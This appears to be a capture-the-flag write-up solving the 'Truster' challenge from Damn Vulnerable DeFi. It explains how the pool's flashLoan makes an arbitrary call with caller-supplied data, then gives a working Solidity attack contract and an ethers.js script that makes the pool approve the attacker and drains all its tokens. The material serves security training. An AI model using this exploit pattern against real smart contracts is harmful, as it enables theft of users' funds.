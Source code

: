 ## GOAL
Take all tokens in single transaction

## Examning The Code
The flashLoan is trusting us :) 
It is giving permission to the target to call whatever function he want.
```solidity
 function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data); // here is the functionCall

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

## Exploit 
We can develop a contract the allow us to call flashLoan, and then pass the approve function in the data parameter so that we can
call the transfer function to transfer tokens to our address.

## Solution
```solidity
contract AttackContract{

    TrusterLenderPool trust;
    IERC20 public immutable damnVulnerableDefi;

    constructor(address _trust,address token){
        trust = TrusterLenderPool(_trust);
        damnVulnerableDefi = IERC20(token);
    }

    function attack(uint256 amount,address borrower,address target,bytes calldata data) external
    {
        trust.flashLoan(amount, borrower, target, data);
        damnVulnerableDefi.transferFrom(address(trust), msg.sender, 1000000 ether);
    }


}
```
```javascript
const deploying = await ethers.getContractFactory("AttackContract",attacker);
const attackContract = await deploying.deploy(this.pool.address,this.token.address);

const abi = ["function approve(address spender, uint256 amount)"]
const iface = new ethers.utils.Interface(abi);
const data = iface.encodeFunctionData("approve",[attackContract.address,TOKENS_IN_POOL])
await attackContract.attack(0,attacker.address,this.token.address,data);
```